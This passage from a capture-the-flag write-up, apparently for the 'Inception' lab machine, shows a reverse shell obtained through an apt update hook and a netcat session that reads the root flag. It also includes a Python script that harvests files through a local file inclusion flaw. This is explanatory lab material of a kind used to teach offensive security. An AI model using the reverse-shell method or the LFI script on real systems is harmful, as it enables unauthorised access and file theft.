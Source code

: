 After a while, when the ```apt update``` runs, the script will be executed and there will be a reverse shell connection to our local machine
### Obtaining root flag
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000       
listening on [any] 4000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.67] 57166
bash: cannot set terminal process group (4595): Inappropriate ioctl for device
bash: no job control in this shell
root@Inception:/tmp# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
root@Inception:/tmp# 
```
## Post-Exploitation
### Script for LFI

```
import requests
import base64

def getBase64(text):
    output = text.split(" ")
    for x in output:
        if "[(" in x:
            base64_text = x.replace("[(","").replace(")]","")
            decoded_text = base64.b64decode(base64_text).decode('utf-8')
            return decoded_text

def exploit(url, filename):
    try:
        url = url + filename
        r = requests.get(url)
        data = str(r.text)
        output = data.split("\n")
        for x in output:
            if "Tf" in x:
                return getBase64(x)
            else:
                continue
    except:
        return None

def main(url):
    filenames = open("lfi.txt").readlines()
    number = 0
    for filename in filenames:
        filename = filename.strip()
        decoded_text = exploit(url, filename)
        if decoded_text is None:
            continue
        outputfilename = "files/{number}".format(number=str(number))
        outputfile = open(outputfilename,'a')
        outputfile.write(filename)
        outputfile.write("\n")
        outputfile.write(decoded_text)
        print("[*] {filename} saved to {outputfilename}".format(filename=filename,outputfilename=outputfilename))
        number += 1
        outputfile.close()

```